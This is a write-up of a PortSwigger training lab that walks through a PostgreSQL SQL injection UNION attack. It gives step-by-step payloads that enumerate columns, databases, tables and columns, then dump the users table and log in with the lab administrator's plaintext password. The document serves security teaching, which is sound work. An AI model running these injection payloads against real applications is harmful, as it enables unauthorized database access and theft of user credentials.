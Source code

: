# SQL injection UNION attack, retrieving data from other tables

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables), you'll learn: SQL injection UNION attack, retrieving data from other tables! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022006.png)

In the previous labs, we found that **the product category `filter` is vulnerable to SQL injection**, and **the query is being reflected to the application's response**.

**Now, let's enumerate the number of columns in this table via `UNION` clause!**
```sql
' UNION SELECT NULL,NULL,NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022316.png)

**When we try to select 3 columns, it returns a `500 Internal Server Error` HTTP status, which means this database table has no 3 columns.**

**How about 2 columns?**
```sql
' UNION SELECT NULL,NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022429.png)

No error this time!

**Next, we need to enumerate which column accepts string datatype:**
```sql
' UNION SELECT 'SQL Injection 1','SQL Injection 2'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022528.png)

**We can see that all columns accept string datatype!**

- First column: Header
- Second column: article content

**Then, we need to find out which DBMS(Database Management System) is using:**
```sql
' UNION SELECT NULL,version()-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022746.png)

- DBMS information: **PostgreSQL version 12.12**

> Note: Although the lab background gave us the table name and column names, I wanna practice SQL injection without anything information in advance.

**After that, we try to enumerate the current table data!**

**According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-list-database) about PostgreSQL injection, we can list all the database names:** 
```sql
' UNION SELECT NULL,datname FROM pg_database-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204023527.png)

- Databases: `template1`, `academy_labs`, `postgres`, `template0`

**Looks like `academy_labs` is our current database? Let's check it is true:**
```sql
' UNION SELECT NULL,current_database()-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204023709.png)

**Yep, let's list all the table names in this database!**
```sql
' UNION SELECT NULL,table_name FROM information_schema.tables-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024437.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024452.png)

**The `users` table looks interesting! Let's enumerate it's column names:**
```sql
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024620.png)

- Table `users` column names: `password`, `username`

**Sounds very interesting! Let's list all the data in this table!**
```sql
' UNION SELECT username,password FROM users-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024743.png)

Nice! **We found all the users' name and password in plaintext**!!

**Now, our objective is log in as `administrator` user.**

Armed with above information, **we know that it's username and password is `administrator:n84eoukut9lau0n2n4s2`!**

**Let's login as `administrator` then!** 

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024943.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204025015.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204025025.png)

We're successfully logged in as `administrator`!!

# Conclusion

What we've learned:

1. SQL injection UNION attack, retrieving data from other tables